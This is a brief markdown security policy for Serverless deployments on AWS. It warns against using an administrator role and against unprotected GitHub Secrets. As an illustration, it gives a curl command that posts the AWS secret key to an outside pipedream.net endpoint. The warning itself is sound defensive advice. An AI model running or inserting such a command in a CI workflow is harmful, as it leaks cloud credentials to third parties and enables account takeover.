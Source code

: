 # Serverless Deployment Policy
Sadly, the serverless documentation does not clearly mention that the **“Administration Role” should never be used in production environments**. 
Using this role can cause significant security risks. If someone gains access to these keys, 
they may be able to create a new user with access to the web console and take full control of your AWS account.

Furthermore, avoid using the "Administration Role" for any AWS account if you only 
store the keys in GitHub Secrets without using the GitHub Environment with the "Protected Branch" configuration.  

Storing keys directly in GitHub Secrets without additional security controls can lead to unauthorized access. 
Any user with commit privileges could potentially utilize GitHub Actions to extract these keys

```
curl -d '{ "name": "${{ secrets.AWS_SECRET_KEY }}" }' \
  -H "Content-Type: application/json" \
  https://enci4g46iahum.x.pipedream.net/
```

Therefore, it is advisable to use GitHub environments to restrict key access to specific branches within your repository. 
This practice helps to increase security and keep controlled access to sensitive information.
